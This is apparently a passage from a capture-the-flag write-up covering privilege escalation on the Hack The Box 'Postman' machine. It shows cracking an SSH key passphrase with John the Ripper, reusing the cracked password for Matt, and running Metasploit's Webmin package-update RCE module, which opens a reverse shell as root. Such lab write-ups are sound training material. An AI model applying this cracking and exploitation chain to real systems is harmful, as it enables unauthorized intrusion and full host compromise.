


# 20 - PrivEsc


# Linpeas.sh



Found a private key.


# Cracked
```
┌─[user@parrot]─[10.10.14.14]─[~/htb/postman]
└──╼ $ python2 /usr/share/john/ssh2john.py mat.key > hash; john hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (mat.key)
```

Private key passphrase is cracked.

# Matt
```
redis@Postman:/opt$ su - Matt
Password: 
Matt@Postman:~$ 
```

Matt is denied via ssh but can log in locally with the passphrase.


# Webmin


Webmin is running as root, it's probably our next target. Besides, credentials work on it and we have seen some exploits related to webmin.

# Searchsploit

```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/postman]
└──╼ $ searchsploit webmin
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------

Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)                                                                                      | linux/remote/46984.rb
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```


# Metasploit
```bash
msf6 exploit(linux/http/webmin_packageup_rce) > options
                                               
Module options (exploit/linux/http/webmin_packageup_rce):
                                               
   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   computer2008     yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.160     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)       
   SSL        TRUE             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME   Matt             yes       Webmin Username
   VHOST                       no        HTTP server virtual host

msf6 exploit(linux/http/webmin_packageup_rce) > run

[*] Started reverse TCP handler on 10.10.14.14:4444 
[+] Session cookie: de0591ec3eb454f77b69f38c12e7312f
[*] Attempting to execute the payload...
[*] Command shell session 2 opened (10.10.14.14:4444 -> 10.10.10.160:34720) at 2021-08-25 21:01:17 +0300

id
uid=0(root) gid=0(root) groups=0(root)
```